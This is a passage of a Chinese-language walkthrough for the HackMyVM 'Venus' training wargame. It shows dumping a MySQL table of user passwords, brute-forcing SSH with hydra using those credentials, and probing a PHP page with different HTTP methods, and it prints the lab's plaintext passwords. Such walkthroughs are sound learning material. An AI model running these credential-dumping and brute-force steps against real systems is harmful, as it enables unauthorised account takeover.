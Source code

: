     ```bash
    lola@venus:~$ su celeste
    Password: VLSNMTKwSV2o8Tn
    ```

---

## **Mission 0x29: celeste -> nina**

-   **任务**: 用户 `celeste` 可以访问 MySQL，但有什么用呢？

1.  使用 `celeste` 当前的密码尝试登录 MySQL 数据库。

    ```bash
    celeste@venus:~$ mysql -u celeste -pVLSNMTKwSV2o8Tn
    ```

2.  登录成功后，查询数据库中的信息。
    ```sql
    MariaDB [(none)]> SHOW DATABASES;
    MariaDB [(none)]> USE venus;
    MariaDB [venus]> SHOW TABLES;
    MariaDB [venus]> SELECT * FROM people;
    ```

3.  `people` 表中包含大量用户名和密码。其中，`id_people=35` 的 `pazz` 字段是一个隐藏 Flag。同时，`id_people=74` 的 `nina` 用户凭证看起来很有希望。

4.  将所有凭证复制到本地，再次使用 `hydra` 爆破 SSH，最终确认 `nina` 的密码。
    ```bash
    # 在本地Kali系统上执行，"db_pass.txt"为从数据库导出的user:pass文件
    hydra -C db_pass.txt ssh://venus.hackmyvm.eu:5000
    # ...
    # [5000][ssh] host: venus.hackmyvm.eu   login: nina   password: ixpeqdWuvC5N9kG
    ```

5.  使用找到的密码 `ixpeqdWuvC5N9kG` 登录 `nina` 账户。

---

## **Mission 0x30: nina -> kira**

-   **任务**: 用户 `kira` 在 `http://localhost/method.php` 藏了东西。

1.  文件名 `method.php` 暗示需要测试不同的 HTTP 请求方法。

2.  使用 `for` 循环测试常用的 HTTP 方法，并观察响应。

    ```bash
    nina@venus:~$ for method in GET POST PUT DELETE PATCH OPTIONS; do echo -n "[$method] -> "; curl -s -X "$method" http://localhost/method.php; done
    [GET] -> I dont like this method!
    [POST] -> I dont like this method!
    [PUT] -> tPlqxSKuT4eP3yr
    [DELETE] -> I dont like this method!
    [PATCH] -> I dont like this method!
    [OPTIONS] -> I dont like this method!
    ```
